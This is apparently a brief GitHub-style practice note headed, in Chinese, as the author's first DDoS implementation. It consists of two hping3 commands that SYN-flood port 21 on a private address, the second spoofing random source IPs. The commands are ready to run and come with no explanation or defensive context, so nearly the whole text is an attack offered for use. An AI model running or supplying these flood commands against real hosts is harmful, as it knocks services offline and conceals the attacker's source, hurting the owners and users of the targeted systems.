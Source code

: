 
### 這是我第一次的DDos實作。

<code>hping3 -V  -c 100000 -d 100 -S -p 21 --flood 192.168.43.129</code><br/>
<code>hping3 -V  -c 100000 -d 100 -S -p 21 --flood --rand-source 192.168.43.129</code>
